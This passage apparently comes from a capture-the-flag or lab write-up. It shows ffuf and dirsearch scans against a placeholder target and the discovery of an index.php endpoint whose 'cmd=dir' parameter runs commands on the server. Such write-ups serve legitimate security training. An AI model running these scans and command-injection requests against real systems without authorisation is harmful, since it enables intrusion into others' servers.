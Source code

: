 Output:
```
...
assets/                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 20ms]
index.html              [Status: 200, Size: 1988, Words: 171, Lines: 62, Duration: 27ms]
:: Progress: [5344/5344] :: Job [1/1] :: 2105 req/sec :: Duration: [0:00:06] :: Errors: 0 :
```

This search returned nothing that we didn't already know, but we can try repeating it and target the `/assets/` path specifically.

```bash
ffuf -u http://TARGET_IP/assets/FUZZ -w path/to/fuzz.txt
```

Output:
```
...
index.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 20ms]
```

This reveals the presence of an `index.php` file that we can try to exploit. 

### Vulnerability discovery

We can run

```bash
dirsearch -u http://TARGET_IP/assets/index.php
``` 

Output:
```

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                                   
 (_||| _) (/_(_|| (_| )                                                                                                                                                                            
                                                                                                                                                                                                   
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/TARGET_IP/_assets_index.php_25-01-25_05-03-59.txt

Target: http://TARGET_IP/

[05:03:59] Starting: assets/index.php/                                                                                                                                                             
[05:04:00] 404 -  274B  - /assets/index.php/%2e%2e//google.com              
[05:04:20] 200 -   40B  - /assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir
                                                                             
```

Notice that `/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir` returns status 200, meaning that the GET request to this URL was accepted. If we try to copy this path on the browser, we obtain a string encoded in base64.
The decoded string shows the directory content (index.php, style.css, ...) suggesting that the `dir` command was correctly executed on the server side.
